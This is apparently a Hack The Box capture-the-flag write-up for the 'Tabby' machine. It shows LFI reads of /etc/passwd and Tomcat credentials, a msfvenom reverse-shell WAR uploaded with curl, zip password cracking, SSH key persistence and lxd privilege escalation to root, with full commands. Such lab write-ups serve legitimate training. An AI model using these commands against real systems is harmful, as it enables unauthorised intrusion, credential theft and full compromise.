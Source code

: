 # Box 



![tabby](img/Screenshot_2020-12-24_17-30-24.png)

https://www.hackthebox.eu/home/machines/profile/259

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of Contents

* [Enumeration](#enumeration)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 



## Enumeration

Let's start with nmap : 

```bash
nmap -sC -oN scan -sV 10.10.10.194
```

![image-20201226110226334](img/image-20201226110226334.png)

I found a web page where you can do a LFI  http://10.10.10.194/news.php?file=../../../../../etc/passwd

![image-20201226110455401](img/image-20201226110455401.png)

After reading documentation, we can now search for tomcat users : http://10.10.10.194/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml 

If you look in the source code page you can see : 

```xml
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
```

I find a way to upload a payload : 


 	http://10.10.10.194:8080/manager/text/deploy?path

![image-20201226111814716](img/image-20201226111814716.png)

We can also see ths list of payload available  : http://10.10.10.194:8080/manager/text/list
![image-20201226111858954](img/image-20201226111858954.png)

##  Exploitation

Let's make our own payload to get a reverse_shell  :

```bash
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.28 LPORT=4444 -f war -o payload.war
```



We upload the file thanks to curl :

```bash
curl -v -u tomcat:\$3cureP4s5w0rd123! --upload-file payload.war  "http://10.10.10.194:8080/manager/text/deploy?path=/payload&update=true"
```

Let's setup nc to receive our shell : 

![image-20201226112207834](img/image-20201226112207834.png)

Activate it :

```
http://10.10.10.194:8080/payload
```

We now get our reverse shell :

![image-20201226112345734](img/image-20201226112345734.png)

## Post-Exploitation

### User

Let's upgrade it, I found python on the machine so we can use :

```bash
/usr/bin/python3.8 -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20201226112757221](img/image-20201226112757221.png)


I found the file /var/www/html/files/16162020_backup.zip whch is password protected I decided to download it on my local machine 

![image-20201226113149055](img/image-20201226113149055.png)

Let's setup a python server to download the file : 

```bash
python3.8 -m http.server 4445
```

![image-20201226113512097](img/image-20201226113512097.png)

on our machine : 

```bash
wget http://10.10.10.194:4445/16162020_backup.zip
```

![image-20201226113550788](img/image-20201226113550788.png)

Let's crack it with the rockyou.txt wordlist :

```bash
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' 16162020_backup.zip
```

we get password : 

![image-20201226113833467](img/image-20201226113833467.png)



We can know get to the user ash in ssh.

![image-20201226114208147](img/image-20201226114208147.png)

We know have our user.txt hash. 

I will now add my ssh pub key to the authorized_keys file of ash.

![image-20201226114432079](img/image-20201226114432079.png)

### Root

Let's enumerate the machine thanks to LinPEAS.

After enumeration, we can see we are part of the lxd group :

![image-20201226114721124](img/image-20201226114721124.png)

We can create a container where we have root access, here is the link to the exploit https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.

We first need to upload an alpine builder :

```bash
wget http://10.10.14.28:4444/alpine-v3.12-x86_64-20201031_1515.tar.gz
```

![image-20201226115611008](img/image-20201226115611008.png)

Let's import our image : 

```bash
lxc image import ./alpine-v3.12-x86_64-20201031_1515.tar.gz 
```

![image-20201226115921228](img/image-20201226115921228.png)

I created an alias to give it a name : 

![image-20201226120129775](img/image-20201226120129775.png)

Now configuration : 

```bash
lxc init htb privesc -c security.privileged=true
lxc config device add privesc mydevice disk source=/ path=/mnt/root recursive=true
```

Execution : 

```bash
lxc start privesc
lxc exec privesc /bin/sh
```


Rooted.

![image-20201226120313901](img/image-20201226120313901.png)






